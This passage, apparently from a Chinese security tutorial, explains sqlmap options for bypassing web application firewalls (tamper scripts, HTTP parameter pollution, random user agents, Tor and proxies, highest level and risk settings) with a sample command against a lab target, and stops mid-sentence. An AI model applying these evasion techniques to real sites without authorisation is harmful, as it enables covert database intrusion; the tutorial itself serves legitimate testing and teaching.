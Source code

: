 Sqlmap在默认情况下除了适用CHAR()函数防止出现单引号，没有对注入的数据进行修改。我们可以使用—tamper参数对数据进行修改来绕过WAF等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过WAF的检测规则。Sqlmap目前官方提供53个绕过脚本。

### 探测指定URL是否存在WAF，并且绕过

```
--identify-waf   检测是否有WAF

#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

### 指定脚本进行绕过(—tamper)

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

```perl
sqlmap  --tamper=space2comment.py  #用/**/代替空格
sqlmap  --tamper="space2comment.py,space2plus.py"  指定多个脚本进行过滤
```

过滤脚本在目录：**/usr/share/sqlmap/tamper**

[![img](https://p1.ssl.qhimg.com/t01565062aff86a2767.png)](https://p1.ssl.qhimg.com/t01565062aff86a2767.png)

### 探测等级和危险等级(—level —risk)

Sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

sqlmap一共有3个危险等级，也就是说你认为这个网站存在几级的危险等级。和探测等级一个意思，在不确定的情况下，建议设置为3级，—risk=3

sqlmap使用的payload在目录：**/usr/share/sqlmap/xml/payloads**

[![img](https://p3.ssl.qhimg.com/t01086cd70c1873d39a.png)](https://p3.ssl.qhimg.com/t01086cd70c1873d39a.png)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别
```

[![img](https://p2.ssl.qhimg.com/t01d5a8232de4f2f4a6.png)](https://p2.ssl.qhimg.com/t01d5a8232de4f2f4a6.png)

### 伪造 Http Referer头部

Sqlmap可以在请求中伪造HTTP中的referer，当探测等级为3或者3以上时，会尝试对referer注入，可以使用referer命令来欺骗，比如，我们伪造referer头为百度。可以这样
